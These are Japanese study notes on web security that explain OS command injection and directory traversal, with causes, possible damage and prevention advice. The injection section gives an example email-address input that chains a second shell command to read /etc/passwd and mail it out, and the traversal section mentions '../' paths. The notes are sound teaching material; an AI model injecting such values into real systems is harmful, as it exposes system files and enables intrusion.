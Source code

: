 # OSコマンドインジェクション

* OSコマンドは、Webアプリケーションが動作するOS上の実行プログラムのこと
* Webアプリケーションからシェルを通じてOSコマンドを呼び出している箇所に脆弱性があると、開発者が想定していないOSコマンドが実行されてしまう
* OSコマンドを呼び出している部分で、別のOSコマンドが実行できてしまう脆弱性や攻撃手法を、OSコマンドインジェクションと呼ぶ
* OSコマンドインジェクションの原因は、OSコマンドを起動する際のパラメータを外部から指定可能な場合に、パラメータに対する入力チェックとエスケープ処理に漏れがあることです。

![image/security_5-11.png](image/security_5-11.png)

WebアプリケーションにOSコマンドインジェクションの脆弱性があると、以下の被害を招く可能性がある

* サーバーにあるファイルやコンテンツの閲覧、改ざん、削除
* rootkitなどの不正なプログラムのダウンロード、実行
* 不正なシステム操作(ユーザーアカウントの作成、サービスの停止など)
* 攻撃のための踏み台にされる

WebアプリケーションからOSコマンドを呼び出す箇所は、アプリケーションの要件によりますが、以下のような機能で利用されている

* メール送信(問い合わせメールの送信、メルマガ登録時の自動応答メールなど)
* ファイル操作(ファイルの読み込み、書き出しなど)
* バッチ処理の起動(バックグラウンドでの操作など)
* OSコマンドを起動した方がパフォーマンスが高いそうさ(画像ファイルの操作など)

```text
例として、入力されたメールアドレスに対してメールを送信するプログラムを考える
Linux上で動作しているWebアプリケーションに対し、OSコマンドを使ってメールを送信するときに、以下のようなOSコマンドを起動して実装したとします。
```

```bash
/usr/sbin/sendmail -i < template.txt xxx@xxx.xx.xx
```

* `/usr/sbin/sendmail`コマンドはLinuxでメールを送信するコマンド
* template.txtは、送信するメール本文が記述されたテキストファイル
* `xxx@xxx.xx.xx`の部分にユーザーが入力したメールアドレスが入る
* ここで、メールアドレスとして`; cat /etc/passwd | /usr/sbin/sendmail xxx@xx.xx.xx`を入力すると、OSのコマンドとして以下のコマンドが実行される

```bash
/usr/sbin/sendmail -i < template.txt ; cat /etc/passwd | /usr/sbin/sendmail xxx@xx.xx.xx
```

* 入力値の中にある`;`はシェルの特殊文字で、「複数のコマンドを続けて実行する」という意味を持る
* 環境や権限によっては、wgetコマンド外部からバックドアとなるソフトウェアをダウンロードしたり、useraddコマンドでリモート接続するユーザーを作成可能になる
* この結果、攻撃者がバックドアを使ってシステムに侵入し、Webシステムを他サイトへの攻撃の踏み台として悪用する可能性がある

## OSコマンドインジェクションを防ぐには

* OSコマンドインジェクションを防ぐには、OSコマンドを起動する実装を避けること

## ディレクトリトラバーサル

* Webシステムでファイルの読み込みや書き込みを行う場合に気をつけたいのが、ディレクトリートラバーサル脆弱性
* これは、読み込みや書き込みを行うファイル名を外部パラメータとして指定可能な場合に、意図しないファイルをWebシステムの処理対象としてしまう脆弱性
* ディレクトリートラバーサル脆弱性は、ファイルに含まれるディレクトリの扱いに不備がある場合に発生する
* 入出力に関係する脆弱性の一つ

被害例

* 公開を意図していない、Webサーバー内のファイルの閲覧(重要情報の漏洩)
* Webサーバーないファイル(設定ファイル、データファイル、コンテンツ)の改ざん、削除

```text
Webシステムが読み込みや書き込みを行うファイル名を外部からパラメータとして指定可能な場合、ファイル名に「../」をつけることで別のディレクトリやファイルを指定できるケースがある
このような時に、ディレクトリートラバーサルの危険性がある
```

![image/security_5-13.png](image/security_5-13.png)

## ディレクトリトラバーサルを防ぐには

* ディレクトリトラバーサルを防ぐには、外部パラメータとしてファイル名を指定する使用を避ける必要がある
* 外部からファイル名を指定できなければ、ディレクトリートラバーサルの危険性を回避可能
* 外部からファイル名を直接指定する代わりに、「ファイル名を固定にする」「セッション変数で保持する」ファイル名を指定する代わりに番号を指定する
* 外部パラメータとしてファイル名を指定せざると得ない場合は、ファイル名にディレクトリー名が含まれないようにする